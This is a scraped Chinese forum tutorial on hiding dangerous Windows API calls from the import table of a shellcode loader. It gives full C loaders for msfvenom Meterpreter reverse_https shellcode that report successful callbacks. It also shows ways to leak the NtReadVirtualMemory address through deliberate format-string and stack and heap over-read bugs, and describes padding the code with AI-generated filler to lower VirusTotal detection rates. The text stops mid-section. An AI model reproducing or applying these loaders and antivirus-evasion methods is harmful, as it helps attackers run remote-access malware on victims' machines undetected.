# [系统底层] 利用NtReadVirtualMemory实现IAT中规避高危API

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=2049715
- 抓取时间: 2026-11-01T21:51:49

## 前世

### Win32 API

Win32 API实现最简单的Shellcode Loader如下，代码中包含注释，可以看到每条语句的含义

```
#include 
#include 

// msfvenom -p windows/meterpreter/reverse_https lhost=xxx lport=xxx -f c
unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52"
...
"\x30\x2e\x32\x00\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

int main()
{
    // 分配内存
    LPVOID allocatedMemory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (allocatedMemory == NULL) {
        printf("[-] VirtualAlloc failed. Error: %d\n", GetLastError());
        return -1;
    }

    // 拷贝内存
    CopyMemory(allocatedMemory, shellcode, sizeof(shellcode));

    // 修改内存属性
    DWORD oldProtect;
    if (!VirtualProtect(allocatedMemory, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("[-] VirtualProtect failed. Error: %d\n", GetLastError());
        return -1;
    }

    // 创建线程执行
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("[-] CreateThread failed. Error: %d\n", GetLastError());
        return -1;
    }

    // 等待线程完成
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    return 0;
}
```

上述代码编译执行后，Meterpreter可成功收到反连，如下图



01.png (69.82 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc5MzM5NHxiMWNmNTk5YnwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc5MzM5NHxiMWNmNTk5YnwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes)

2025-7-30 19:55 上传

通过[//github.com/hasherezade/pe-bear" target="_blank" rel="noopener noreferrer nofollow"](https://github.com/hasherezade/pe-bear:rel="nofollow noopener" href="https)查看，可以看到IAT中存在之前用到的几个Win32 API，如下图



02.png (335.05 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc5MzM5NXwxMGNiODUyZXwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc5MzM5NXwxMGNiODUyZXwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes)

2025-7-30 19:55 上传

### LoadLibrary、GetProcAddress

然后进化出通过`LoadLibrary`、`GetProcAddress`实现的动态API调用，代码中包含注释，可以看到每条语句的含义

```
#include 

#include 

// msfvenom -p windows/meterpreter/reverse_https lhost=xxx lport=xxx -f c

unsigned char buf[] =

"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52"

...

"\x30\x2e\x32\x00\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

int main()

{

    // 载入kernel32.dll

    HMODULE hKernel32 = LoadLibraryA("kernel32.dll");

    if (!hKernel32) {

        printf("LoadLibraryA failed. Error: %d", GetLastError());

        return -1;

    }

    // 声明一个函数指针，指定调用约定、参数、返回值符合VirtualAlloc的原型

    LPVOID (WINAPI *pVirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD) = (LPVOID (WINAPI*)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(hKernel32, "VirtualAlloc");

    // 声明一个函数指针，指定调用约定、参数、返回值符合RtlMoveMemory的原型

    VOID (WINAPI *pRtlMoveMemory)(VOID UNALIGNED*, const VOID UNALIGNED*, SIZE_T) = (VOID (WINAPI*)(VOID UNALIGNED*, const VOID UNALIGNED*, SIZE_T))GetProcAddress(hKernel32, "RtlMoveMemory");

    // 声明一个函数指针，指定调用约定、参数、返回值符合VirtualProtect的原型

    BOOL (WINAPI *pVirtualProtect)(LPVOID, SIZE_T, DWORD, PDWORD) = (BOOL (WINAPI*)(LPVOID, SIZE_T, DWORD, PDWORD))GetProcAddress(hKernel32, "VirtualProtect");

    // 声明一个函数指针，指定调用约定、参数、返回值符合CreateThread的原型

    HANDLE (WINAPI *pCreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD) =

        (HANDLE (WINAPI*)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD))GetProcAddress(hKernel32, "CreateThread");

    // 声明一个函数指针，指定调用约定、参数、返回值符合WaitForSingleObject的原型

    DWORD (WINAPI *pWaitForSingleObject)(HANDLE, DWORD) = (DWORD (WINAPI*)(HANDLE, DWORD))GetProcAddress(hKernel32, "WaitForSingleObject");

    // 声明一个函数指针，指定调用约定、参数、返回值符合CloseHandle的原型

    BOOL (WINAPI *pCloseHandle)(HANDLE) = (BOOL (WINAPI*)(HANDLE))GetProcAddress(hKernel32, "CloseHandle");

  // 如果哪一个句柄值为false，表示获取失败，程序退出

    if (!pVirtualAlloc || !pRtlMoveMemory || !pVirtualProtect || !pCreateThread || !pWaitForSingleObject || !pCloseHandle) {

        printf("GetProcAddress failed. Error: %d", GetLastError);

        return -1;

    }

    // 分配内存

    LPVOID allocatedMemory = pVirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 拷贝内存

    pRtlMoveMemory(allocatedMemory, buf, sizeof(buf));

    // 修改内存属性

    DWORD oldProtect;

    if (!pVirtualProtect(allocatedMemory, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect)) {

        printf("VirtualProtect failed. Error: %d", GetLastError);

        return -1;

    }

    // 创建线程执行内存

    HANDLE hThread = pCreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocatedMemory, NULL, 0, NULL);

    if (hThread == NULL) {

        printf("CreateThread failed. Error: %d", GetLastError);

        return -1;

    }

    // 等待线程完成

    pWaitForSingleObject(hThread, INFINITE);

    pCloseHandle(hThread);

}
```

上述代码编译执行后，Meterpreter可成功收到反连，如下图



03.png (85.65 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc5MzM5Nnw1YzJkZDFmNXwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc5MzM5Nnw1YzJkZDFmNXwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes)

2025-7-30 19:55 上传

通过[//github.com/hasherezade/pe-bear" target="_blank" rel="noopener noreferrer nofollow"](https://github.com/hasherezade/pe-bear:rel="nofollow noopener" href="https)查看，可以看到IAT中不再有之前的几个Win32 API，仅有`LoadLibrary`、`GetProcAddress`，如下图



04.png (351.46 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc5MzM5N3xlYmNlN2JlOXwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc5MzM5N3xlYmNlN2JlOXwxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes)

2025-7-30 19:55 上传

再进化后，当今动态获取函数地址主流的方式是查询PEB和EAT，这样在IAT中连`GetModuleHandle`、`GetProcAddress`也不会出现，甚至还可以遍历内存，通过特征匹配定位函数，进而动态获取函数地址，不过今天要分享的是一个好玩的东西，通过故意泄露内存地址，然后通过`NtReadVirtualMemory`读取内存来获取函数地址

## 今生

### resolve.c

首先我们有这样一个工具[//github.com/ybdt/evasion-hub/blob/master/01-函数地址定位/恶意软件高级技术之利用NtReadVirtualMemory实现IAT中规避高危API/resolve.c" target="_blank" rel="noopener noreferrer nofollow"](https://github.com/ybdt/evasion-hub/blob/master/01-函数地址定位/恶意软件高级技术之利用NtReadVirtualMemory实现IAT中规避高危API/resolve.c:rel="nofollow noopener" href="https)，传入`NtReadVirtualMemory`的地址、DLL名称、函数名称后，可以计算出函数地址

代码比较多我就不贴出来了，基本原理是通过Native API解析PE及PEB，进而获取DLL基址和函数地址，展开讲的话内容比较多，由于不是本篇文章的重点，先不去细究

`VS2022`下编译后，用法如下图



09.png (43.57 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc5MzQwMnwzMzZiZWIzM3wxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc5MzQwMnwzMzZiZWIzM3wxNzkzNTY5OTA2fDE2ODA4NnwyMDQ5NzE1&nothumb=yes)

2025-7-30 19:55 上传

接下来的问题是如何获得`NtReadVirtualMemory`的地址

### 方式1 直接输出


## 方式1 直接获取

```
#include 
#include 

int main() {
    HMODULE hNtdll = LoadLibraryA("ntdll.dll");
    FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
    printf("[+] NtReadVirtualMemory address: \t0x%p\n", pNtReadVirtualMemory);
    return 0;
}
```

编译后执行如下：



将`Leak-1.exe`传到VT上，可以看到是11/72的检测率。



上面的代码太少了，很容易被检测，我们用AI生成一个C++实现的200行的任务管理器，并将上面的代码插入其中，当输入我们自定义的`z`时，会输出`NtReadVirtualMemory`的地址。



将`Leak-2.exe`传到VT上，可以看到是5/72的检测率，检测率降低了将近一半。



尝试用AI生成别的程序，包括涉及进程管理的控制台任务管理器、涉及文件操作的控制台学生成绩管理系统、甚至不涉及进程管理和文件操作的数学运算、C语言版本、C++版本、加上元数据，传到VT上后，至少会有2个杀毒引擎检测到，实在无奈。

不过，尽管VT上显示Microsoft将其标识为恶意的，但在本地Defender中，并不会查杀。



## 方式2 格式化字符串漏洞

下述代码是一个典型的格式化字符串漏洞，使用`sprintf`将格式化数据写入`input`时，由于没有指定变量，所以会随机打印栈上的值，其中就包括上面定义的`leakme1`的值，也就造成了内存地址泄露。

```
#include 
#include 

int main() {
   HMODULE hNtdll = LoadLibraryA("ntdll.dll");
   FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
   long long leakme1 = (long long) pNtReadVirtualMemory;
   char input[100];
   sprintf(input, "%p %p %p %p\n");
   printf(input);
   return 0;
}
```

如果直接在VS2022中编译，默认会带有各种优化，导致不能触发格式化字符串漏洞，需要使用如下命令编译：

```
cl FormatStringLeak.cpp /Od /Zi /RTC1
```

执行后可以看到，输出的四个地址中，有一个是`NtReadVirtualMemory`的地址。



## 方式3 栈越界读

下述代码原理和上面有点类似，字符数组`buffer`只有8字节，在栈上越界读，可以读到保存`NtReadVirtualMemory`地址的变量，之所以选择`ptr[23]-ptr[16]`，是经过测试发现，这几个字节保存的是`NtReadVirtualMemory`地址。

```
#include 
#include 

int main() {
   HMODULE hNtdll = LoadLibraryA("ntdll.dll");
   FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
   char buffer[8] = "leak";
   long long leakme1 = (long long) pNtReadVirtualMemory;
   unsigned char *ptr = (unsigned char *)buffer;
   for (int i = 23; i >= 16; i--) {
       printf("%02X", ptr[i]);
   }
   return 0;
}
```

使用如下命令编译：

```
cl StackOverRead.cpp /Od /Zi /RTC1
```

执行后可以看到，成功输出的地址：



## 方式4 堆越界读

下述代码原理和上面的栈越界读基本一致：

```
#include 
#include 

int main() {
   HMODULE hNtdll = LoadLibraryA("ntdll.dll");
   FARPROC pNtReadVirtualMemory = GetProcAddress(hNtdll, "NtReadVirtualMemory");
   char *buffer = (char *)malloc(32);
   strcpy(buffer, "leak");
   uintptr_t *leakme1 = (uintptr_t *)(buffer + 16);
   *leakme1 = (uintptr_t)pNtReadVirtualMemory;
   for (int i = 23; i >= 16; i--) { printf("%02X", (unsigned char)buffer[i]); }
   return 0;
}
```

使用如下命令编译：

```
cl HeapOverRead.cpp /Od /Zi /RTC1
```

编译后执行，可以看到，成功输出了`NtReadVirtualMemory`的地址。



上述代码，结合AI生成的代码，执行后如下图：

